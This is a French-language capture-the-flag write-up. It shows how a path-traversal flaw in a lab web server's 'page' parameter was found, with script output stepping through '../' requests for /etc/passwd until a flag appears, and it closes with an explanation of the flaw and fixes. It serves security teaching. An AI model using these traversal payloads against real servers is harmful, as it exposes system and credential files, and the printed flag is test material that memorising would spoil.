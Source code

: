 ### Comment obtenir le flag
En allant sur n'importe quel page du site contenant une requête GET dans l'url (comme `http://[ip]/?page=survey`), on essaye de changer la valeur du paramètre `page`.  
On obtient alors un script alert. Cela nous donne l'idée d'utiliser une attaque de répertoires automatisés avec un script python. (inspect_recursion.py)  
Ce script va simplement essayer d'accéder à l'URL du fichier `/etc/passwd` vu précédemment dans le dossier `whatever`, en rajoutant à chaque récursion un niveau de moins dans l'arborescence du serveur. Dans sa version finale, le script s'arrête quand l'alerte donne des indications sur le flag.  

```
$> python3 inspect_recursion.py [ip]

http://192.168.43.129/?page=etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../../etc/passwd
alert('Wrong..');

http://192.168.43.129/?page=../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../etc/passwd
alert('Almost.');

http://192.168.43.129/?page=../../../../../etc/passwd
alert('Still nope..');

http://192.168.43.129/?page=../../../../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```
Nous avons ainsi le flag.

### Expliquer la faille
La traversée de répertoire ou [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal) est une attaque HTTP qui permet aux attaquants d'accéder à des répertoires restreints et d'exécuter des commandes en dehors du répertoire racine du serveur web.  
Sur Linux, `/etc/passwd` est le fichier contenant la liste de tous les utilisateurs (et potentiellement leur mot de passe, même si ce dernier est généralement de nos jours dans `/etc/shadow`). Ici, l'utilisateur malveillant essaie d'utiliser `page` pour explorer le système de fichier et le contenu du serveur, et obtenir ainsi plus d'infomations sur sa configuration (et espérer trouver une faille exploitable).

### Comment la corriger
De façon assez basique, on pourrait simplement bloquer tout paramètre `page` commençant par un point. Il est préférable de vérifier les entrées utilisateur, idéalement de supprimer tout ce qui ne fait pas partie des données correctes pour naviguer sur le site.  
Il est de toute façon indispensable d'empêcher l'utilisateur exécutant le site Internet (en général `www-data`) d'avoir accès à `/etc/passwd` ou tout autre fichier sensible du système, en configurant correctement les droits et permissions sur le serveur.  
Enfin, vérifier si le serveur web et les logiciels sont à jour, et que les patches de sécurité ont bien été appliqués.

